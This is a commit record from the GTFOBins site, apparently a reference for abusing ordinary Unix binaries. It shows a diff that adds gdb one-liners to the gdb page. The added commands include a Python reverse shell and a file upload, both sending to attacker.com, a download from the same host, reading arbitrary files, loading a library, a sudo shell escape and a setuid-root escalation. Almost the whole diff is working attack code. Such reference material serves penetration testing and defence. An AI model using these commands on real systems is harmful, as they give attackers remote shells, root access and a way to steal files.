

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/gdb.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add python functions to gdb

```diff
--- a/_gtfobins/gdb.md
+++ b/_gtfobins/gdb.md
@@ -1,16 +1,55 @@
 ---
-description: |
-  GDB may come with embedded Python support, in that case arbitrary code can be executed with the `python` command in the context of the GDB process. See the [Python](/gtfobins/python/) functions.
 functions:
   execute-interactive:
     - code: gdb -nx -ex '!sh' -ex quit
+  reverse-shell-interactive:
+    - description: This requires that GDB is compiled with Python support. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
+      code: |
+        export RHOST=attacker.com
+        export RPORT=12345
+        gdb -nx -ex 'python import sys,socket,os,pty;s=socket.socket()
+        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
+        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
+        pty.spawn("/bin/sh")' -ex quit
+  upload:
+    - description: This requires that GDB is compiled with Python support. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
+      code: |
+        export URL=http://attacker.com/
+        export LFILE=file_to_send
+        gdb -nx -ex 'python import sys; from os import environ as e
+        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
+        else: import urllib as u, urllib2 as r
+        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' -ex quit
+    - description: This requires that GDB is compiled with Python support. Serve files in the local folder running an HTTP server.
+      code: |
+        export LPORT=8888
+        gdb -nx -ex 'python import sys; from os import environ as e
+        if sys.version_info.major == 3: import http.server as s, socketserver as ss
+        else: import SimpleHTTPServer as s, SocketServer as ss
+        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' -ex quit
+  download:
+    - description: This requires that GDB is compiled with Python support. Fetch a remote file via HTTP GET request.
+      code: |
+        export URL=http://attacker.com/file_to_get
+        export LFILE=file_to_save
+        gdb -nx -ex 'python import sys; from os import environ as e
+        if sys.version_info.major == 3: import urllib.request as r
+        else: import urllib as r
+        r.urlretrieve(e["URL"], e["LFILE"])' -ex quit
   file-write:
-    - code: |
+    - description: This requires that GDB is compiled with Python support.
+      code: |
         LFILE=file_to_write
         gdb -nx -ex "dump value $LFILE \"DATA\"" -ex quit
+  file-read:
+    - description: This requires that GDB is compiled with Python support.
+      code: gdb -nx -ex 'python print(open("file_to_read").read())' -ex quit
+  load-library:
+    - description: This requires that GDB is compiled with Python support.
+      code: gdb -nx -ex 'python from ctypes import cdll; cdll.LoadLibrary("lib.so")' -ex quit
   sudo-enabled:
     - code: sudo gdb -nx -ex '!sh' -ex quit
   capabilities-enabled:
-    - description: Only if it has been compiled with Python support.
+    - description: This requires that GDB is compiled with Python support.
       code: ./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
 ---
```
